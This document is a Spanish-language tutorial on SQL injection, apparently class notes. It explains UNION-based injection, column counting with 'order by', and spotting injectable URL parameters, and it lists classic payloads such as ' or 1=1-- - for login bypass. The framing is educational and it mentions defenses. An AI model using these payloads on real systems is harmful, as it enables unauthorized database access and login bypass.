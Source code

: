 Es importante entender los diferentes tipos de inyecciones SQL y cómo pueden utilizarse para obtener información confidencial y controlar una base de datos. Los desarrolladores deben asegurarse de validar adecuadamente la entrada del usuario y de utilizar técnicas de defensa, como la sanitización de entrada y la preparación de consultas SQL, para prevenir las inyecciones SQL en sus aplicaciones web.

A continuación, se proporciona el enlace a la utilidad online de ‘**ExtendsClass**‘ que utilizamos en esta clase:

-   **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)


## Conforma una DB

Tenemos: **DB > TABLAS > COLUMNAS > DATOS**
**Antes de la primer coma debemos de colocar un valor que no exista en la DB. Así lo que inyectemos se podrá visualizar.**

* [Cheat-Sheet-SQLI](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Inyecciones 'UNION' mirando el error en el Output de la Web'

Debemos de adivinar cuantas columnas existen. Esperando a que ya no nos muestre el **error**.
* La mayoría de las inyecciones las puedes hacer empezando por  '
* Dependiendo de la web podemos iniciar con camilla y a veces no, cuando es el caso también no es necesario colocar el comentario -- - al final de la query.
* Un indicio de inyección SQL es encontrar en la url **.php?id=** No es necesario que diga **id** también puede tener otro parámetro. 

```bash
# MYSQL

# Rara vez acepta la inyeccion SQL sin el primer ' ya que no existe otra comilla por comentar. Al momento de colocar -- - (comentario) y no sale error en la web podriamos iniciar con las SQLi. 
❯ -- -
❯ order by 3-- -


❯ ' or '1'='1                                         # La mas sencilla y nos devolveria un true, dejamos una comilla sin cerrar ya que la propia query la cerrara
❯ ' or 1=1-- -                                        # La mas sencilla y nos devolveria un true, aveces hace bypass en el panel de autenticacion, pero devuelve todo en la bvase de datos cuando no se utiliza en el panel de login
❯ ' or 1=1 # 
❯ <user>'-- -                                         # Este se usa en un panel de login 
❯ ' order by 100-- -                                  # Haremos un ordenamiento con la 100va columna e iremos adivinando hasta que no nos marque un error
❯ ' and if()-- a        

+ = Espacio en blanco en la URL
```

